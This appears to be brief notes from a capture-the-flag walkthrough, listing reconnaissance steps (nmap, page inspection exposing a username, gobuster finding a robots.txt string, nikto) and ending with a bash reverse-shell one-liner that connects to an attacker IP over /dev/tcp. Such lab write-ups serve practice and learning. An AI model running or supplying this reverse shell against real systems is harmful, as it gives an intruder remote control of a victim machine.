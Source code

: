 
1. nmap
2. Inspect html
   - Found username `R1ckRul3s`

3. Run gobuster
   - `robots.txt` contains `Wubbalubbadubdub`
4. Run nikto

   Set a reverse shell `https://gtfobins.github.io/gtfobins/bash/`
5. `bash -c 'exec bash -i &>/dev/tcp/10.9.138.149/9999 <&1'

